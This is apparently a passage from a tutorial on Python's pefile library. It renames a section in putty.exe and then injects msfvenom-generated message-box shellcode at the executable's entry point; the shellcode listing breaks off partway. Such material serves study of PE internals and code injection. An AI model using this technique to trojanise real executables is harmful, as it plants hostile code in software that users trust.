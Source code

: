 ```python
import pefile

exe_path = "c:\putty.exe"
pe = pefile.PE(exe_path)

print("[*] Original Section name = %s" % pe.sections[0].Name.decode('utf-8'))
print("[*] Editing values...\n")

# Edit values
pe.sections[0].Name = ".axc".encode()

# Save the change in another executable
new_exe_path = r"C:\Users\User\Desktop\new_putty.exe"
pe.write(new_exe_path)

# Check the values
new_pe = pefile.PE(new_exe_path)
print("[*] New Section name = %s" % new_pe.sections[0].Name.decode('utf-8'))
```

**Output**

```bash
[*] Original Section name = .text   
[*] Editing values...

[*] New Section name = .axc
```

Easy, right ?

## Code Injection

Now, let's try to inject code into the executable. Here we will inject a shellcode at the entry point. It will corrupt the executable as we will overwrite the orginal code to execute the shellcode. To do this, we will use the `set_bytes_at_offset()` method. It overwrite the bytes at the given file offset with the given string, it takes 2 arguments:

* `Offset`, containing the offset where we want to write the data 
* `Data`, the data...

```python
import pefile

exe_path = "c:\putty.exe"
pe = pefile.PE(exe_path)

# msfvenom -p windows/messagebox -f py
# Payload size: 272 bytes
# Final size of py file: 1308 bytes
shellcode = bytes(b"\xd9\xeb\x9b\xd9\x74\x24\xf4\x31\xd2\xb2\x77\x31\xc9")
shellcode += b"\x64\x8b\x71\x30\x8b\x76\x0c\x8b\x76\x1c\x8b\x46\x08"
shellcode += b"\x8b\x7e\x20\x8b\x36\x38\x4f\x18\x75\xf3\x59\x01\xd1"
shellcode += b"\xff\xe1\x60\x8b\x6c\x24\x24\x8b\x45\x3c\x8b\x54\x28"
shellcode += b"\x78\x01\xea\x8b\x4a\x18\x8b\x5a\x20\x01\xeb\xe3\x34"
shellcode += b"\x49\x8b\x34\x8b\x01\xee\x31\xff\x31\xc0\xfc\xac\x84"
shellcode += b"\xc0\x74\x07\xc1\xcf\x0d\x01\xc7\xeb\xf4\x3b\x7c\x24"
shellcode += b"\x28\x75\xe1\x8b\x5a\x24\x01\xeb\x66\x8b\x0c\x4b\x8b"
shellcode += b"\x5a\x1c\x01\xeb\x8b\x04\x8b\x01\xe8\x89\x44\x24\x1c"
shellcode += b"\x61\xc3\xb2\x08\x29\xd4\x89\xe5\x89\xc2\x68\x8e\x4e"
shellcode += b"\x0e\xec\x52\xe8\x9f\xff\xff\xff\x89\x45\x04\xbb\x7e"
shellcode += b"\xd8\xe2\x73\x87\x1c\x24\x52\xe8\x8e\xff\xff\xff\x89"
shellcode += b"\x45\x08\x68\x6c\x6c\x20\x41\x68\x33\x32\x2e\x64\x68"
shellcode += b"\x75\x73\x65\x72\x30\xdb\x88\x5c\x24\x0a\x89\xe6\x56"
shellcode += b"\xff\x55\x04\x89\xc2\x50\xbb\xa8\xa2\x4d\xbc\x87\x1c"
shellcode += b"\x24\x52\xe8\x5f\xff\xff\xff\x68\x6f\x78\x58\x20\x68"
```